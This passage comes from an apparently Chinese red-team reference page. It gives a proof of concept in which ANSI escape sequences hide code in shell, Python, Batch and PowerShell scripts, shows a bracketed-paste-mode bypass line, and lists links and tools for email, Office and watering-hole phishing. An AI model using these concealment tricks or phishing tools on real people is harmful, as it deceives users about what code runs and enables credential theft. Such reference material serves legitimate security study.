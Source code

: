 **poc**
```bash
# linux
echo -e '#!/bin/sh\n\necho "evil!"\nexit 0\n\033[2Aecho "Hello World!"\n' > script.sh
chmod a+x script.sh

# python
echo -e '#!/usr/bin/python\n\nprint "evil!";\nexit(0);\n#\033[2A\033[1Dprint "Hello World!";\n' > script.py
chmod a+x script.py

# Batch
echo -e '@echo off\n\r\n\recho evil!\r\n::\033[2D  \033[A\033[2Decho Hello World!' > script.bat

# PowerShell
echo -e 'write-host "evil!"\r\n#\033[A\033[2Dwrite-host "Hello World!"' > script.ps1
```

**Bypassing the Bracket Paste Mode**
```bash
ESC[201~clear; echo "Bypass Bracketed Paste Mode"
```

#### Email钓鱼

**相关文章**
- [关于电子邮件诈骗的一些分析](http://www.4hou.com/web/13931.html)
- [一个邮箱账号的展开式](https://www.freebuf.com/articles/others-articles/213744.html)
- [记一次钓鱼测试](https://chriskalix.github.io/post/bKTmLyJeL/)

**相关工具**
- [邮件轰炸机-垃圾邮件发送器](http://www.skyju.cc/mailhzj.html)

**SMTP**
- 见 [Protocol-Exploits](./RedTeam/协议安全/Protocol-Exploits.md#smtp) SMTP 部分

#### office钓鱼

**相关文章**
- [攻防演练对抗赛之初识文件钓鱼](https://www.freebuf.com/articles/network/219999.html)
- [攻击技术研判 | 利用Excel默认密码实现静态免杀静态并减少钓鱼步骤](https://mp.weixin.qq.com/s/n7ecBEtVghQEEL162bWqFg)
- [攻击技术研判 | 后宏时代：PPT鼠标悬停事件的新利用](https://mp.weixin.qq.com/s/ebKhYcPYtClgWk7JkcIYFg)
- [AWS S3 Bucket子域接管实现可信钓鱼服务攻击](https://mp.weixin.qq.com/s/9BeHub6YCp0oM8jHrK6_dg)
- [文本类型的免杀](https://mp.weixin.qq.com/s/xwjjP5OrrxCfazBf6i_J1g)

**漏洞利用**
- [Office漏洞利用](./RedTeam/软件服务安全/DesktopApps-Exploits.md#office)

#### 水坑钓鱼

**相关文章**
- [水坑钓鱼研究](https://mp.weixin.qq.com/s/UEsTs8WmGVSTlNMDg-lrgA)

**相关工具**
- [HTTrack](http://topspeedsnail.com/httrack-clone-website/) - 克隆任意网站
- [thelinuxchoice/blackeye](https://github.com/thelinuxchoice/blackeye) - 网络钓鱼工具,有32个模板+1定制
- [SET](https://github.com/trustedsec/social-engineer-toolkit/)
    - [SET 笔记](./安全工具/SET.md)
- [gophish/gophish](https://github.com/gophish/gophish) - Open-Source Phishing Toolkit
- [xiecat/goblin](https://github.com/xiecat/goblin) - 一款适用于红蓝对抗中的仿真钓鱼系统
- [Threezh1/SiteCopy](https://github.com/Threezh1/SiteCopy)

---